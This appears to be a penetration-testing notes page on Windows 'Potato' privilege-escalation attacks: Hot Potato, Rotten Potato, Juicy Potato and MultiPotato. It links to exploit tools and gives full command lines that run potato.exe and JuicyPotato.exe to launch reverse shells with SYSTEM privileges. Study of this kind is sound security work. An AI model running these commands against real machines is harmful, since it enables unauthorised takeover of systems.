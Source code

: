 # Potatos

## Hot Potato

Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges. The attack tricks Windows into authenticating as the SYSTEM user to a fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution. This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.

{% hint style="info" %}
These steps are for Windows 7, newer versions of windows 10 is not vulnerable.
{% endhint %}

the exploit can be found here:

{% embed url="https://github.com/Kevin-Robertson/Tater" %}

and here is the compiled binary exploit:

{% file src="../../../.gitbook/assets/potato.exe" %}

Run the exploit with your custom reverse shell:

```
potato.exe -ip 192.168.1.33 -cmd "C:\PrivEsc\reverse.exe" - enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```

Wait for a Windows Defender update, or trigger one manually.

Unfortunately, multiple problems have been found with service accounts, making them easier to escalate privileges with.

## Rotten Potato

The original Rotten Potato exploit was identified in 2016. Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user. This was possible because service accounts usually have the “SeImpersonatePrivilege” privilege enabled

## Juicy Potato

Rotten Potato was quite a limited exploit. Juicy Potato works in the same way as Rotten Potato, but the authors did extensive research and found many more ways to exploit.

{% embed url="https://github.com/ohpe/juicy-potato" %}

{% hint style="info" %}
These steps are for Windows 7, newer versions of windows 10 is not vulnerable
{% endhint %}

Copy PSExec64.exe and the JuicyPotato.exe exploit executable over to Windows and start a listener.

Using an administrator command prompt, use PSExec64.exe to trigger a reverse shell running as the Local Service service account:

```powershell
PSExec64.exe -i -u "ntauthority\local service" reverse.exe
```

Start another listener on Kali

Now run the JuicyPotato exploit to trigger a reverse shell running with SYSTEM privileges:

```
PrivEsc\JuicyPotato.exe -l 1337 -p reverse.exe  -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```

{% hint style="info" %}
If the CLSID ({03ca...) doesn’t work for you, either check this list:

[https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)

or run the GetCLSID.ps1 PowerShell script.
{% endhint %}

## MultiPotato

{% embed url="https://github.com/S3cur3Th1sSh1t/MultiPotato" %}
